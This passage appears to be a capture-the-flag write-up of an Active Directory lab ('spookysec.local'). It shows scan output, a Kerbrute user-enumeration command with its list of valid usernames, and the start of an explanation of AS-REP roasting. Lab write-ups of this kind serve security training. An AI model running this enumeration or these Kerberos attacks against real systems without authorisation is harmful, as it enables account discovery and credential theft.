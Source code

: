 ```
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   71.47 ms 10.8.0.1
2   71.57 ms 10.10.219.70
```

Also did a scan with [enum4linux](https://www.kali.org/tools/enum4linux/).

#### Enumerating Users via Kerberos 

A whole host of other services are running, including Kerberos. Kerberos is a key authentication service within Active Directory. With this port open, we can use a tool called [Kerbrute](https://github.com/ropnop/kerbrute) (by Ronnie Flathers @ropnop) to brute force discovery of users, passwords and even password spray!

I downloaded the package for github, added executable rights with `chmod +x [file name]`
and run it.
The `userenum` command looks promising.
To discover the users I run :
`./kerbrute_linux_amd64 userenum --dc [ip] -d spookysec.local [list with users]` and I got:

```
2023/05/15 19:20:47 >  [+] VALID USERNAME:	 james@spookysec.local
2023/05/15 19:20:47 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2023/05/15 19:20:47 >  [+] VALID USERNAME:	 James@spookysec.local
2023/05/15 19:20:47 >  [+] VALID USERNAME:	 robin@spookysec.local
2023/05/15 19:20:47 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2023/05/15 19:20:47 >  [+] VALID USERNAME:	 administrator@spookysec.local
2023/05/15 19:20:47 >  [+] VALID USERNAME:	 backup@spookysec.local
2023/05/15 19:20:48 >  [+] VALID USERNAME:	 paradox@spookysec.local
2023/05/15 19:20:48 >  [+] VALID USERNAME:	 JAMES@spookysec.local
2023/05/15 19:20:49 >  [+] VALID USERNAME:	 Robin@spookysec.local
2023/05/15 19:20:50 >  [+] VALID USERNAME:	 Administrator@spookysec.local
2023/05/15 19:20:53 >  [+] VALID USERNAME:	 Darkstar@spookysec.local
2023/05/15 19:20:54 >  [+] VALID USERNAME:	 Paradox@spookysec.local
2023/05/15 19:20:57 >  [+] VALID USERNAME:	 DARKSTAR@spookysec.local
2023/05/15 19:20:57 >  [+] VALID USERNAME:	 ori@spookysec.local
2023/05/15 19:20:59 >  [+] VALID USERNAME:	 ROBIN@spookysec.local

```

So svc-admin and backup looks juicy!

## Explotation

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
